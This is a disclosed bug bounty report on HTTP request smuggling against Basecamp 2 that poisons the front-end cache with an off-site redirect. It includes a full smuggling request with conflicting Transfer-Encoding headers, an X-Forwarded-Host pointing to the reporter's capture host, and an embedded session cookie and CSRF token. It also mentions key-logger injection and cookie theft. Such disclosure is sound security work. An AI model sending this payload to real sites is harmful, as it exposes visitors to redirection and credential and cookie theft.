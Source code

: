 # HTTP request smuggling on Basecamp 2 allows web cache poisoning

## Report Details
- **Report ID**: 919175
- **URL**: https://hackerone.com/reports/919175
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-07-08T18:38:41.851Z
- **Disclosed**: 2020-10-28T14:57:26.124Z

## Reporter
- **Username**: hazimaslam
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
It is found that an authenticated Basecamp 2 user can desync front and backend servers and poison the socket with harmful response for the next visitor.  During redirect probe, It also appears that front-end infrastructure performs caching of content. Using HTTP request smuggling attack, It is possible to poison the cache with the off-site redirect response using `X-Forwarded-Host` request header in smuggled request. This will make the attack persistent, affecting any user who subsequently requests the affected URL.

## Validation steps
**1.**  Open https://requestbin.com/r/enjv2g5042bg in your browser for request capturing.

**2.** Paste the following request in Burp repeater (I've embedded my session in the request for your ease):

```http
POST /4618984/account HTTP/1.1
Host: basecamp.com
Connection: keep-alive
Content-Length: 144
Accept: */*
X-CSRF-Token: BW5Kp3r1hLOuZI6+4GkBW5XUpkt55bi9tIiqgKFo1ZY=
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: _basecamp_session=BAh7CEkiD3Nlc3Npb25faWQGOgZFVEkiJTAwNzU0OTI3NWZjMTI0Zjk5ZTVlOGE5NTU0MGFhN2UyBjsAVEkiEF9jc3JmX3Rva2VuBjsARkkiMUJXNUtwM3IxaExPdVpJNis0R2tCVzVYVXBrdDU1Ymk5dElpcWdLRm8xWlk9BjsARkkiDnBlcnNvbl9pZAY7AEZpBHYSEQE%3D--ced0e607b9844aff72e0b9421e73e4d52c8b04bc;identity_id=BAhpBOwxQgE%3D--3a11dbd3096b61294dc6c864b807a87944e4b6ab;
Transfer-Encoding: chunked
Transfer-encoding: identity

22
_method=patch&account%5Bname%5D=BC
0

GET /x HTTP/1.1
X-Forwarded-Host: enjv2g5042bg.x.pipedream.net
X-Forwarded-Proto: http
Foo: bar
```
Make sure to set the target to `https://basecamp.com` and port to `443`.

**3.** Issue the request in repeater.

**4.** Observe the captured request in RequestBin.com

## Impact

- With request smuggling, attacker can serve harmful response to random people actively browsing the website, enabling straightforward mass-exploitation.

- By redirecting javascript imports to a malicious domain, an attacker can inject a key-logger and steal user passwords from login page.

- It is also possible to capture visitors' request headers and cookies.

## Attachments
No attachments
